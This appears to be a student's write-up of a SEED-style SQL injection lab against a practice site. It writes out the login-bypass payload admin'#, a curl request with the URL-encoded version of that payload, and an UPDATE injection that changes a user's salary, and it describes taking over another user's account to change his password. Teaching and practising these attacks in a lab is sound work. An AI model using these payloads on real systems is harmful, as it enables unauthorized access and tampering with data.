# SQL Injection

## Task 1: Get Familiar with SQL Statements

After configuring the mysql container, we can see the information of the credential database:



## Task 2.1

In order to perform a sql injection attack in this case, we can can take a look at the WHERE part in the sql query.

```SQL

WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";

```

We can just type in the username input, `admin'#` and this will turn the statement into:


```SQL

WHERE name= ’admin’#’ and Password=’$hashed_pwd’";

```

Which makes the code after # to be commented, and only searching where the username is admin.






## Task 2.2

In this task, all that we need to do, is use the same strategy as before, but we need to encode the special characters we use (' and # that encoded are %27 and %23)

By using the command: `curl 'www.seed-server.com/unsafe_home.php?username=admin%27%23&Password=11'`

We receive the html of the admin page:



Or we can just type the encoded url in the browser:




## Task 2.3

In this case, an attack with 2 statements doesn't work because of the use of mysqli::query().
This API does not allow multiple queries to in the database server.

However, it's still possible to use 2 statements for an sql injection attack if mysqli::multi_query() is used. For security reasons, query() should be used instead of multi_query(). 


## Task 3.1

To modify the salary of alice we can log in into her account using the same method as we used for the admin in Task 2.1, and enter the edit profile page.

This is the UPDATE Statement used:

```SQL

"UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";

```

We can just add another parameter update using sql injection. Like this:



This way, the update statement will be:
```SQL

UPDATE credential SET nickname='alice',email='a',salary='80000',address='',PhoneNumber='' where ID=$id;

```

This way we can update the salary of alice according to what we want.



## Task 3.2  

This is a similar case to the previous one.
We just need to log in, and fill the edit profile page using the same method as before.







## Task 3.3

This one is very simple. Just login into boby's account (using the same method as before)
and change the password in the edit profile input and press save.








The password used was: revenge

The sha1 hash is: 4bcd0679aebb6dfd786a2f02105169a8dc82d4fa

And as we can see in the database, the hash was changed according to what we wanted.


